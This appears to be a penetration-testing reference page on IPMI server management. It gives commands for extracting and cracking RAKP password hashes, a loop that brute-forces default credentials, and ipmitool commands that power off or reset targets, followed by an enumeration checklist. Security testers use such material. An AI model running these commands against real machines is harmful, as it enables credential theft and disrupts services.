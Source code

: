 ## Attack Vectors

### 1. Password Hash Extraction
```bash
# Extract password hashes via RAKP vulnerability
use auxiliary/scanner/ipmi/ipmi_dumphashes

# Crack hashes offline
hashcat -m 7300 hashes.txt wordlist.txt
```

### 2. Default Credential Access
```bash
# Test default credentials
for user in admin root ADMIN; do
    for pass in admin password root calvin; do
        ipmitool -I lanplus -H target -U $user -P $pass chassis status
    done
done
```

### 3. Power Management Attacks
```bash
# Power off system
ipmitool -I lanplus -H target -U admin -P pass power off

# Power cycle system
ipmitool -I lanplus -H target -U admin -P pass power cycle

# Reset system
ipmitool -I lanplus -H target -U admin -P pass power reset
```

## Enumeration Checklist

### Initial Discovery
- [ ] Port scan for 623/UDP
- [ ] IPMI version detection
- [ ] Service availability confirmation
- [ ] Network accessibility assessment

### Vulnerability Assessment
- [ ] Cipher zero vulnerability testing
- [ ] Authentication bypass attempts
- [ ] Default credential testing
- [ ] Version-specific vulnerability checks

### Information Gathering
- [ ] User account enumeration
- [ ] System information extraction
- [ ] Hardware configuration analysis
- [ ] Network configuration review
